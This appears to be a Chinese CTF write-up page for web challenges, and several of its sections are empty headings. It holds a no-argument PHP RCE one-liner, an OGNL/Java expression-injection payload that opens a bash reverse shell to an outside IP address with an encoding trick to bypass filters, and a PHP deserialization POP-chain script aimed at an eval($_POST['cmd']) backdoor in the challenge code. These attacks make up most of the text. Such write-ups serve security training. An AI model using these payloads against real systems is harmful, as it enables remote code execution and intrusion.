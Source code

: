 # web
### babyphp
#无参rce 
`commandshow_source(array_rand(array_flip(scandir(getcwd()))));`


### pain
#ongl #java 0
表达式注入,使用unicode编码绕过
```shell
(new java.lang.ProcessBuilder(new java.lang.String[]{'bash','-c','bash -i >& /dev/tcp/54.255.166.12/80 0>&1'})).start()
```
先unicode编码后url编码

### 我全都要
```php
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    // public function __toString()
    // {
    //     echo "I also want to fall in love";
    //     if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
    //         $this->Aec->game();
    //     }
    // }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }


}

$a=new B();
$b=new A();
$c=new P();
$d=new B();

$a->pop=$b;
$b->boy=array('a');
$b->girl=array('b');
$b->Aec=$d;
$d->i=1;
$d->nogame=$c;
$c->MyLover=$d;
echo(serialize($a));
```

### DoyouknowCC


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-08   14:57